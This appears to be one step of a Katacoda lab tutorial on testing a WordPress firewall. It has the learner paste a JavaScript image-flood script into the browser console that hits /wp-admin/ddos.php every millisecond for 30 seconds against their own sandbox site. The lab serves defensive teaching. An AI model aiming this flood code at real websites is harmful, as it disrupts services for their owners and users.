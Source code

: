 ## **Enforce the DDos to test the firewall**
---

### **Step 1:** 

Access your own WordPress website in Google Chrome using the link:
`https://[[HOST_SUBDOMAIN]]-8000-[[KATACODA_HOST]].environments.katacoda.com `{{copy}}

<br></br>

### **Step 2:** 
Right click and click `inspect` button to open the inspect of the Google 

![Image](./assets/Inspect.png)
<br></br>

### **Step 3:** 
click the Console button to access the console:
![Image](./assets/Console.png)

### **Step 4:** 
Copy the following command and paste it in the console and click enter:


```shfunction imgflood() {
  let URI = '/wp-admin/ddos.php?'
  let pic = new Image()
  let rand = Math.floor(Math.random() * 1000)
  pic.src = window.location.origin+URI+rand+'=val'
}

let ddosTimer = setInterval(imgflood, 1); //Run it every 1 ms

setTimeout(() => clearInterval(ddosTimer), 30000); //Stop running in 30 sec
```
{{copy}}

![Image](./assets/ConsoleAddCommand.png)


